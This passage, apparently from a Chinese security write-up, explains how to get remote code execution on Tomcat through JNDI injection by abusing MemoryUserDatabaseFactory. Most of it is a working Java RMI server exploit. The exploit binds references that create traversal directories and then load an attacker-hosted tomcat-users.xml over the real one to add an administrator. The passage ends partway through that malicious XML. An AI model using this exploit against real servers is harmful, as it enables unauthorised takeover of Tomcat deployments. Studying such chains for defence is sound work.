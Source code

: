 前面的 open 方法中有如下代码：

```java
digester.addFactoryCreate("tomcat-users/group", new MemoryGroupCreationFactory(this), true);
digester.addFactoryCreate("tomcat-users/role", new MemoryRoleCreationFactory(this), true);
digester.addFactoryCreate("tomcat-users/user", new MemoryUserCreationFactory(this), true);
```

save 将从pathname下载的xml文件中的roles、groups和users写入文件中，并覆盖给Catalina.base+pathname的文件中。


RCE的方法有两种，分别是覆盖 tomcat-users.xml 和写 webshell 

=== "创建 tomcat 管理员"

    ```java title="RMIServer"
    import com.sun.jndi.rmi.registry.ReferenceWrapper;
    import org.apache.naming.ResourceRef;

    import javax.naming.StringRefAddr;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    public class UserDataRCE_Server {
        public static void main(String[] args) throws Exception{

            Registry registry = LocateRegistry.createRegistry(1099);

            // ===============================1 创建http:/================================================
            // ResourceRef ref = new ResourceRef("org.h2.store.fs.FileUtils", null, "", "",
            //         true, "org.apache.naming.factory.BeanFactory", null);
            // ref.add(new StringRefAddr("forceString", "a=createDirectory"));
            // ref.add(new StringRefAddr("a", "../http:"));

            // ===============================2 创建http:/127.0.0.1:8888/================================================
        // ResourceRef ref = new ResourceRef("org.h2.store.fs.FileUtils", null, "", "",
        //         true, "org.apache.naming.factory.BeanFactory", null);
        // ref.add(new StringRefAddr("forceString", "a=createDirectory"));
        // ref.add(new StringRefAddr("a", "../http:/127.0.0.1:8888"));

            // ===============================3 写入文件================================================

        ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
                true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
        ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../conf/tomcat-users.xml"));
        ref.add(new StringRefAddr("readonly", "false"));
            // ===============================写入文件================================================

            ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
            registry.bind("writeFile", referenceWrapper);
        }
    }
    ```

    ```xml title="tomcat-users.xml"
    <?xml version="1.0" encoding="UTF-8"?>
    <tomcat-users xmlns="http://tomcat.apache.org/xml"
                xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
                version="1.0">
